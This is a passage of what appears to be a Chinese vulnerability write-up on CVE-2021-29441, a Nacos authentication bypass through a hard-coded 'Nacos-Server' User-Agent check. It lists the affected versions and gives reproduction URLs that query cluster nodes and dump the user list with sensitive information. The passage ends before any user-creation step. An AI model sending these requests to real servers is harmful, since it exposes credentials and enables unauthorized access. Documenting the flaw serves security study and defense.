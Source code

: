 ## 五、认证绕过/用户创建 CVE-2021-29441

### 漏洞描述

2020 年 12 月 29 日披露。在 Nacos 进行认证授权操作时，会判断请求的 User-Agent 是否为 ”Nacos-Server”，如果是的话则不进行任何认证。该配置为硬编码，通过该漏洞，攻击者可以获取到用户名密码等敏感信息，且可以进行任意操作，包括创建新用户并进行登录后操作。

### 影响版本

```
Nacos <= 2.0.0-ALPHA.1
```

### 漏洞复现

访问 `/nacos/v1/auth/users?pageNo=1&pageSize=9` ，查看状态码是否为 200，且内容中是否包含 `pageItems`。通过该路由可查询 IP 地址、Nacos 端口、Nacos 版本、raftPort 等信息：

```
http://your-ip:port/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=
```

通过 `/nacos/v1/auth/users` 路由查询已有的用户列表及敏感信息：

```
http://your-ip:port/nacos/v1/auth/users?pageNo=1&pageSize=9
```

![image-20230609142007526](images/image-20230609142007526.png)
